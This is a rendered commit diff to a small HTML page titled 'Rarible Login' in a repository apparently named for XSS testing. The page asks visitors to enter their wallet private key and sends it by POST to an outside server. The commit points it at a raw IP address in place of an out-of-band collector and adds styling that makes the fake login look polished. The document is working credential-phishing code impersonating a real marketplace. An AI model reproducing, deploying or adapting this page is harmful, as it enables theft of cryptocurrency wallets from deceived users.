

Before and after one commit to az0mb13/xsstest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1073 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,15 +4,53 @@
 <head>
 	<meta charset="UTF-8">
 	<meta name="viewport" content="width=device-width, initial-scale=1.0">
-	<title>Form Submission with JavaScript</title>
+	<title>Rarible Login</title>
+
+	<style>
+		body {
+			font-family: Arial, sans-serif;
+		}
+
+		h1 {
+			text-align: center;
+		}
+
+		#myForm {
+			max-width: 300px;
+			margin: 0 auto;
+		}
+
+		label {
+			display: block;
+			margin-bottom: 5px;
+		}
+
+		input {
+			width: 100%;
+			padding: 8px;
+			border-radius: 12px;
+			margin-bottom: 10px;
+			box-sizing: border-box;
+		}
+
+		button {
+			width: 100%;
+			padding: 15px;
+			background-color: black;
+			color: white;
+			border: none;
+			border-radius: 15px;
+			cursor: pointer;
+		}
+	</style>
 </head>
 
 <body>
 
-	<h1>Enter your private key to authetnicate into Rarible</h1>
+	<h1>Enter your private key to authenticate into Rarible</h1>
 
 	<form id="myForm">
-		<label for="privateKey">Private Key:</label>
+		<label for="privateKey">Private Key</label>
 		<input type="text" id="privateKey" name="privateKey" required>
 
 		<button type="button" onclick="submitForm()">Submit</button>
@@ -20,26 +58,34 @@
 
 	<script>
 		function submitForm() {
+			// Get private key
 			var privateKey = document.getElementById('privateKey').value;
 
+			// Validate private key (you can add your own validation logic here)
+
+			// Create an object with the form data
 			var formData = {
 				privateKey: privateKey
 			};
 
+			// Convert the form data to URL-encoded format
 			var urlEncodedData = Object.keys(formData).map(function (key) {
 				return encodeURIComponent(key) + '=' + encodeURIComponent(formData[key]);
 			}).join('&');
 
+			// Make a POST request to the specified website
 			var xhr = new XMLHttpRequest();
-			xhr.open('POST', 'https://cnr3wf12vtc0000rfd40gkhb68wyyyyyb.oast.fun/', true);
+			xhr.open('POST', 'http://172.105.58.90:8000/', true);
 			xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
 
 			xhr.onreadystatechange = function () {
 				if (xhr.readyState == 4 && xhr.status == 200) {
+					// The request was successful, you can handle the response here
 					console.log('Response:', xhr.responseText);
 				}
 			};
 
+			// Send the request with the form data
 			xhr.send(urlEncodedData);
 		}
 	</script>
```
